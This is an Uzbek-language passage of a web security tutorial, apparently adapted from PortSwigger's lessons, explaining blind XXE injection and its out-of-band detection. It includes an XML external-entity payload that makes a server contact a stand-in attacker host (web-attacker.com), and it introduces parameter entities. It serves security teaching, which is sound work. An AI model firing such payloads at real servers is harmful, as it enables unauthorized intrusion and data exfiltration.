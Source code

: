# Blind XXE ineksiyasi

Biz ushbu bo'limda Blind XXE ineksiya nima ekanligi haqida gaplashamiz va uni topish usullarini ham o'rganamiz.

## Blind XXE ineksiya nima ? <a href="#blind-xxe-inektsiya-nima" id="blind-xxe-inektsiya-nima"></a>

Saytning qayeridadir XXE ineksiyasi bo'lsayu lekin response hech qanday External entity qiymatini qaytarmasa Blind XXE ineksiya sodir bo'ladi. Bu degani to'g'ridan-to'g'ri server-side fayl almashish imkoni yo'q va shunaqa ekan Blind XXE ineksiyani oddiy XXE ineksiyaga qaraganda exploit qilish ancha qiyin.

Buni amalga oshirishning ikkita asosiy yo'li bor:

* Siz OAST tarmog'ining o'zaro ta'sirini ishga tushirishingiz mumkin, ba'zida bu o'zaro tasirli ma'lumotlar paytida maxfiy ma'lumotlarni topadi
* Siz XML error lari orqali maxfiy ma'lumotlarni olishingiz mumkin.

## Blind XXE ni out-of-band (OAST) orqali aniqlash usullari <a href="#blind-xxe-ni-out-of-band-oast-orqali-aniqlash-usullari" id="blind-xxe-ni-out-of-band-oast-orqali-aniqlash-usullari"></a>

Siz [SSRFni XXE yordamida aniqlash xujumi](xxe-ineksiya#ssrf-hujumlarini-amalga-oshirish-uchun-xxedan-foydalanish) bilan bir xil texnikadan foydalangan holda Blind XXE ni aniqlashingiz mumkin, lekin siz boshqarayotgan tizimga OAST tarmog'ining o'zaro ta'sirini ishga tushirishingiz mumkin. Misol uchun siz tashqi entiti ni e'lon qilishingiz mumkin:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

Keyin XML ichidagi ma'lumotlar qiymatida berilgan entitidan foydalanasiz.

Ushbu XXE xujumi serverni kitilgan URL manziliga HTTP so'rov yuborishiga olib keladi. Natijada haker DNS lookup va HTTP so'rovini kuzatishi va shu bilan XXE xujumi muvaffaqiyatli bo'lganligini aniqlashi mumkin.

:::caution **Lab**
 [Out-of-band o'zaro tasiri yordamida blind XXE ≫](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction)
:::

Ba'zida XXE hujumlar, oddiy entitilardan foydalangan holda sayt tomonidan kiritilgan tekshiruvlar yoki foydalanilayotgan XML parsing tufayli bloklanadi. Bunday holatlarda siz XML parametr entitilardan foydalanishingiz mumkin. XML parametr entitylari XML entitylarining maxsus turi bo'lib, unga faqat DTD doirasidagi boshqa joyga murojaat qilish mumkin. Hozir siz faqat ikkita narsani bilishingiz kerak. Birinchidan, XML parametr entity deklaratsiyasi, entity nomidan oldingi % belgisini o'z ichiga oladi:

```xml
<!ENTITY % myparameterentity "my parameter entity value" >
```
